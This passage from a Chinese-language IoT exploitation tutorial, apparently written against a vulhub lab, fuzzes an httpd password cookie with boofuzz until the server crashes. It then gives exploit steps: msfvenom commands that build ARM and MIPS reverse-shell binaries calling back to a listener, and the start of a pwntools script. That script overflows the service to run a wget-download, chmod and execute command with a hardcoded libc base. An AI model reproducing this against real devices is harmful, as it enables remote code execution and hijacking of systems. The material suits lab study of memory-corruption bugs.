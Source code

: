 ```python
        s_static("Cookie: ")
        s_static("password=", name="key-password")
        s_string("cyberangel", fuzzable=True)        # fuzz password
        s_static("\r\n", name="Request-Line-CRLF-8")
        # over
        s_static("\r\n")
        s_static("\r\n")


    session.connect(s_get("Request"))
    try:
        session.fuzz()          # if except, and the socket proxy has disconnected, httpd is crashed
    except:
        print("overflow!")

if __name__ == "__main__":
    main()
```

效果如下：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658880588183-31db783d-86b6-45ba-85d1-d95bae81c666.png)

fuzzer发送了大量变异后的字符串导致httpd崩溃，看起来成功了。打开同目录下自动生成的`boofuzz-result`文件夹，执行`boo open [log_name].db`以查看日志：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658880838207-76da413c-c445-4035-afc2-ce9d040fccde.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658880924024-69324e88-3ec6-41fb-980f-afdb08ee6707.png)

在第20轮fuzz的时候崩溃，说明第19轮发送的数据导致崩溃：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1658881029760-7b2b302b-5506-42c8-aaf1-88a9a35a77e5.png)

# 5、exp
关于利用就很简单了，溢出后执行`system("/msf")`并反弹shell：

```shell
# https://github.com/VulnTotal-Team/IoT-vulhub/tree/master/baseImage/msf
# 使用 Metasploit生成的反向shell：
$ msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-arm 
$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-mipsel 
$ msfvenom -p linux/mipsbe/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-mips
```

感兴趣可以自己看看：

```python
#!/usr/bin/python3
# 该脚本只在docker内部生效，懒，不想改了...

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf '
cmd += b'&& chmod 777 /msf '
cmd += b'&& /msf'

assert(len(cmd) < 255)

libc_base = 0x76de8000					# 记得换libcbase

system = libc_base + 0x5A270
```